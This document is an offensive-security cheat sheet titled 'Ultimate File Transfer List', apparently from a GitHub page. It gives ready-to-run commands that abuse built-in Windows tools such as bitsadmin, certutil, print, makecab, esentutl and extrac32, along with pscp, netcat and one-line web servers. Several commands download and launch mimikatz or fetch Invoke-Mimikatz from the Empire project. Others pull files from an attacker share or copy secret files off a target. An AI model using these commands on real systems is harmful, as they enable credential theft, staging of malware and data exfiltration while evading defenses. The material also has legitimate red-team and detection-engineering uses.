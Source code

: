 # Ultimate File Transfer List
Ultimate File Transfer List


## bitsadmin.exe

cmd.exe /c "bitsadmin.exe /transfer downld_job /download /priority high http://www.trustedsite.com C:\Temp\mimikatz.exe & start C:\Temp\mimikatz.exe"

References: 

https://www.greyhathacker.net/?tag=download-and-execute


## SSH / pscp.exe

pscp.exe C:\Users\Public\info.txt phineas@target:/tmp/info.txt
pscp.exe phineas@target:/home/phineas/secret.txt C:\Users\Public\secret.txt


## certutil.exe

certutil.exe -urlcache -split -f https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1

References:

https://twitter.com/subtee/status/888122309852016641?lang=en


## certutil.exe / base64 transfer

certutil.exe -encode mimikatz.exe mimikatz.txt
certutil.exe -decode mimikatz.txt mimikatz.exe


## print.exe download

C:\Windows\System32\print.exe /D c:\TEMP\ADExplorer.exe \\live.sysinternals.com\tools\ADExplorer.exe

References:

https://twitter.com/Oddvarmoe/status/984749424395112448


## makecab.exe

C:\Windows\System32\makecab.exe \\10.10.10.10\share\nmap.zip C:\Users\Public\nmap.cab


## esentutl.exe

C:\Windows\System32\esentutl.exe /y "\\10.10.10.10\share\mimikatz_trunk.zip" /d"C:\Users\Public\mimikatz_trunk.zip" /o


## extrac32.exe

C:\Windows\System32\extrac32.exe /Y /C \\10.10.10.10\share\secret.txt C:\Users\Public\secret.txt


## netcat file transfer
nc -nlvp 8000 > mimi_incoming.exe
nc -nv 10.10.10.10 8000 </tmp/mimikatz.exe


## Web Browser / Server

python -m SimpleHTTPServer 80
python3 -m http.server
ruby -run -ehttpd . -p80
php -S 0.0.0.0:80
socat TCP-LISTEN:80,reuseaddr,fork


